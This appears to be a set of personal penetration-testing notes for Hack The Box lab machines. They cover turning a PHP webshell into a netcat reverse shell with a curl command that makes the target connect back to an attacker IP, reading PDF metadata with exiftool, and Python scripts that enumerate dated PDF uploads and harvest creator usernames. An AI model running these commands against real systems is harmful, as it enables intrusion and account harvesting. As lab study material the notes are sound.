 turn webshell into regular shell:
- upload nc64.exe if windows
```
rlwrap -cAr nc -lnvp 443
```
- start listener
```
curl -G school.flight.htb/styles/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.172 443'
```
- runs nc64.exe targeting listener

if files on website, use `exiftool` to check for creator usernames or other metadata
```
exiftool 2020-01-01-upload.pdf
```

if downloaded files from website have standard name like `2020-15-15-upload.pdf`, script to enumerate other potential files:
```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```
More specifically, print text containing certain keywords and creates users file based on unique users it finds
```
#!/usr/bin/env python3

import datetime
import io
import PyPDF2
import requests


t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
keywords = ['user', 'password', 'account', 'intelligence', 'htb', 'login', 'service', 'new']
users = set()
pdf_count = 0  # Counter for PDFs found

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        try:
            with io.BytesIO(resp.content) as data:
                pdf = PyPDF2.PdfReader(data)
                metadata = pdf.metadata
                if '/Creator' in metadata:
                    creator = metadata['/Creator']
                    users.add(creator)
```